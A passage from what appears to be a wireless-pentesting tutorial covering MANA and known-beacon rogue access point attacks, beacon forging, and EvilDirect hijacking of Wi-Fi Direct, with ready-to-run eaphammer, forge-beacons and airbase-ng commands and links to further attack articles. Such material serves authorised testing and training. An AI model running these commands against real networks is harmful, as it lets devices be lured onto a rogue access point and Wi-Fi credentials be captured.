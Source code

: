 ```
./eaphammer -i wlan0 --mana [--loud] --known-beacons  --known-ssids-file wordlist.txt [--captive-portal] [--auth wpa-psk --creds]
```

**Known Beacon Burst attack**

As known beacons are loud. You can use a script inside Eaphammer project to just launch beacouns of every ESSID name inside a file very quickly. If you combines this script with a Eaphammer MANA attack, the clients will be able to connect to your AP.

```
# transmit a burst of 5 forged beacon packets for each entry in list
./forge-beacons -i wlan1 \
 --bssid de:ad:be:ef:13:37 \
 --known-essids-file known-s.txt \
 --dst-addr 11:22:33:11:22:33 \
 --burst-count 5
```

### Wi-Fi Direct

Wi-Fi Direct is a Wi-Fi standard that allows devices to connect to each other without a wireless AP as one of the two devices will act as AP (called group owner). You can find Wi-Fi Direct in a lot of IoT devices like printers, TVs...

Wi-Fi Direct relies on Wi-Fi Protected Setup (**WPS**) to securely connect the devices. WPS has multiple configuration methods such as **Push-Button** Configuration (PBC), **PIN entry**, and **Near-Field** Communication (NFC)

So the attacks previously seen to WPS PIN are also valid here if PIN is used.

#### EvilDirect Hijacking

This works like an Evil-Twin but for Wi-Fi direct, you can impersonate a group owner to try to make other devices like phons connect to you: `airbase-ng -c 6 -e DIRECT-5x-BRAVIA -a BB:BB:BB:BB:BB:BB mon0`

### Interesting links

* [https://posts.specterops.io/modern-wireless-attacks-pt-i-basic-rogue-ap-theory-evil-twin-and-karma-attacks-35a8571550ee](https://posts.specterops.io/modern-wireless-attacks-pt-i-basic-rogue-ap-theory-evil-twin-and-karma-attacks-35a8571550ee)
* [https://posts.specterops.io/modern-wireless-attacks-pt-ii-mana-and-known-beacon-attacks-97a359d385f9](https://posts.specterops.io/modern-wireless-attacks-pt-ii-mana-and-known-beacon-attacks-97a359d385f9)
* [https://posts.specterops.io/modern-wireless-tradecraft-pt-iii-management-frame-access-control-lists-mfacls-22ca7f314a38](https://posts.specterops.io/modern-wireless-tradecraft-pt-iii-management-frame-access-control-lists-mfacls-22ca7f314a38)
* [https://posts.specterops.io/modern-wireless-tradecraft-pt-iv-tradecraft-and-detection-d1a95da4bb4d](https://posts.specterops.io/modern-wireless-tradecraft-pt-iv-tradecraft-and-detection-d1a95da4bb4d)
* [https://github.com/gdssecurity/Whitepapers/blob/master/GDS%20Labs%20-%20Identifying%20Rogue%20Access%20Point%20Attacks%20Using%20Probe%20Response%20Patterns%20and%20Signal%20Strength.pdf](https://github.com/gdssecurity/Whitepapers/blob/master/GDS%20Labs%20-%20Identifying%20Rogue%20Access%20Point%20Attacks%20Using%20Probe%20Response%20Patterns%20and%20Signal%20Strength.pdf)
* [http://solstice.sh/wireless/eaphammer/2019/09/10/eap-downgrade-attacks/](http://solstice.sh/wireless/eaphammer/2019/09/10/eap-downgrade-attacks/)
* [https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/](https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/)
* [https://medium.com/hacking-info-sec/ataque-clientless-a-wpa-wpa2-usando-pmkid-1147d72f464d](https://medium.com/hacking-info-sec/ataque-clientless-a-wpa-wpa2-usando-pmkid-1147d72f464d)
